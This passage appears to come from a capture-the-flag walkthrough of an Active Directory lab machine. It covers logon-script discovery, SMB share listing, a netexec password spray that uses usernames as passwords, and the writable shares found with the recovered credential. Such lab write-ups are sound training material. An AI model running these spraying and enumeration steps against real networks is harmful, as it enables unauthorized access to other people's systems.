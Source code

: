 We got a few files, **CHANGELOG** and **login.vbs.lnk** which is a Windows Shortcut format, from the **CHANGELOG** file we understood that some drive mapping is happening and from the login shortcut we can extract the following useful information using `lnkinfo`:

```
$ lnkinfo login.vbs.lnk
Local path                      : C:\Windows\SYSVOL\sysvol\baby2.vl\scripts\login.vbs
Network path                    : \\DC\NETLOGON\login.vbs
Relative path                   : ..\..\..\Windows\SYSVOL\sysvol\baby2.vl\scripts\login.vbs
Working directory               : C:\Windows\SYSVOL\sysvol\baby2.vl\scripts
```

There is a VBS file in the `SYSVOL` share that we are still unsure what it does, however with the information that we have we can OSINT a bit to understand what are those files.

We will find this [question in serverfault,](https://serverfault.com/questions/2748/auto-mapping-network-drive-when-a-user-logs-in) which is related to a network drive mapping and some logon scripts. We can conclude that some script is firing up whenever we log in as a user, this will become useful later, so let's note that and move on.

Next, lets explore the **/homes** share.

```
$ smbclient //10.10.101.112/homes -U 'sfgsfgsf'
```

<img src="/images/Pasted image 20231231091940.png">

This would give us a list of usernames that are most likely related to the Active Directory. Let's save those in a file and try them against the SMB protocol, for the password we would try to exploit some weak credentials.

```
$ netexec smb 10.10.101.112 -u ./credentials/users.txt -p ./credentials/users.txt
```

We would find that we can log in as `Carl.Moore` since we got a git for his username used as a password.

Let's list the shares once more, we may have different shares that we can read.

```
$ netexec smb baby2.vl -u 'Carl.Moore' -p 'Carl.Moore' --shares
SMB         10.10.101.112   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:baby2.vl)
SMB         10.10.101.112   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
SMB         10.10.101.112   445    DC               [*] Enumerated shares
SMB         10.10.101.112   445    DC               Share           Permissions     Remark
SMB         10.10.101.112   445    DC               -----           -----------     ------
SMB         10.10.101.112   445    DC               ADMIN$                          Remote Admin
SMB         10.10.101.112   445    DC               apps            READ,WRITE      
SMB         10.10.101.112   445    DC               C$                              Default share
SMB         10.10.101.112   445    DC               docs            READ,WRITE      
SMB         10.10.101.112   445    DC               homes           READ,WRITE      
SMB         10.10.101.112   445    DC               IPC$            READ            Remote IPC
SMB         10.10.101.112   445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.101.112   445    DC               SYSVOL          READ            Logon server share 
```

